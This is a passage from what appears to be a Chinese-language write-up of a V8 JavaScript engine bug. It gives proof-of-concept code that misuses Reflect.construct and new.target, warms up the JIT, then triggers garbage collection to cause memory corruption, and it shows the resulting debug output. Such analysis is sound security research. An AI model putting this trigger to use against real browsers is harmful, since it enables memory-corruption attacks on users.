 于是用于造成内存破坏：

```javascript

class A {}

var x = Array;

class B extends A {
  constructor() {
    x = new.target; //new.target 代表最初调用链里用的构造函数
    super();
  }
}

function construct() {
  var r = Reflect.construct(B, [], x); //更改new.target=x
  return r;
}

for (let i = 0; i < 2000; i++) {
  construct();
}

let corruptedArr = construct(); 
%DebugPrint(corruptedArr);
//此时已经变成JSArray

var gcSize = 0x4fe00000;
new ArrayBuffer(gcSize);
new ArrayBuffer(gcSize);
//触发垃圾回收

corruptedArr = construct(); 
%DebugPrint(corruptedArr);
```

construct()到底造出了什么？
`let corruptedArr = construct();` 
由于 `x = Array`，实际等价于 `Reflect.construct(B, [], Array)`
构造出的对象 `corruptedArr`，它的 prototype 不是 B.prototype，也不是 A.prototype，而是 x.prototype，也就是 Array.prototype


```
DebugPrint: 0000032E0004C3B1: [JS_OBJECT_TYPE]
 - map: 0x032e0019ac79 <Map[52](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x032e0018e4dd <JSArray[0]>
 - elements: 0x032e00000219 <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x032e00000219 <FixedArray[0]>
 - All own properties (excluding elements): {}
0000032E0019AC79: [Map] in OldSpace
 - type: JS_OBJECT_TYPE
 - instance size: 52
 - inobject properties: 10
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 10
 - enum length: invalid
 - stable_map
 - back pointer: 0x032e00000251 <undefined>
 - prototype_validity cell: 0x032e00000ab9 <Cell value= 1>
 - instance descriptors (own) #0: 0x032e00000289 <DescriptorArray[0]>
 - prototype: 0x032e0018e4dd <JSArray[0]>
 - constructor: 0x032e0004c201 <JSFunction A (sfi = 0000032E0019A569)>
 - dependent code: 0x032e00000229 <Other heap object (WEAK_ARRAY_LIST_TYPE)>
 - construction counter: 6
```
